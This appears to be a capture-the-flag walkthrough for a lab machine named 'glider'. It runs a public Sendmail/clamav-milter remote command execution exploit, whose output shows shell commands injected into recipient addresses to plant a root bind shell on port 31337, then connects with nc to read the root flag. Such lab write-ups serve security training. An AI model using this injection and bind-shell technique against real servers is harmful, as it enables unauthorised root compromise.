

# Network Enumeration

```bash
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
199/tcp open  smux
445/tcp open  microsoft-ds
```

## Web access

Access to `80` found a binary string.


Convert it.



```markdown
ifyoudontpwnmeuran00b
```

But this string is not useful, use the name of machine to search on `searchsploit`

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ searchsploit clamav                       
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                   | multiple/remote/4761.pl
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Download the pl script from `searchsploit`.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ perl 4761.pl 192.168.178.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.178.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 7 Aug 2023 03:30:09 -0400; (No UCE/UBE) logging access from: [192.168.45.155](FAIL)-[192.168.45.155]
250-localhost.localdomain Hello [192.168.45.155], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 3777U9if004267 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

That shows `31337` port will open.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ nmap -p31337 192.168.178.42                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-07 08:05 +0430
Nmap scan report for 192.168.178.42
Host is up (0.23s latency).

PORT      STATE SERVICE
31337/tcp open  Elite

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds

```

Use `nc` to try connect

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ nc 192.168.178.42 31337    
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
ls /root/proof.txt
/root/proof.txt
cat /root/proof.txt
cd51bf4074919c204c669df30e4656ac
```

Needn't PE